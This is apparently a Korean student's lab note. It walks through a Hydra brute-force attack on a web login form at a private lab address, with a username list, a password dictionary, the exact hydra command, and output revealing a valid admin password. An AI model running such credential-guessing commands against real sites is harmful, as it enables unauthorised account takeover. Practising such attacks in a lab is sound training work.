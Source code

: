 홈페이지 172.16.10.20/basic -> admin /keroro2424. 로 로그인 -> 칼리 와이어샤크 보기



###### 칼리

root@kali-04:~# vim userlist.txt

```
root
ktest
master
admin
tester
keroro
```

root@kali-04:~# vim dict.txt

```
P@ssw0rd
password
admin
root
toor
keroro2424.
h0t$ix
1
2
123
qwer123
```

root@kali-04:~# hydra -L userlist.txt -P dict.txt 172.16.10.20 http-post-form "/member/member_login_check.php:user_id=^USER^&user_pw=^PASS^:history"

```
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-19 12:41:54
[DATA] max 16 tasks per 1 server, overall 16 tasks, 66 login tries (l:6/p:11), ~5 tries per task
[DATA] attacking http-post-form://172.16.10.20:80/member/member_login_check.php:user_id=^USER^&user_pw=^PASS^:history
[80][http-post-form] host: 172.16.10.20   login: admin   password: P@ssw0rd
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-19 12:41:56


-> 비번 일치 하는 사람만 뜸
```



### Xhydra
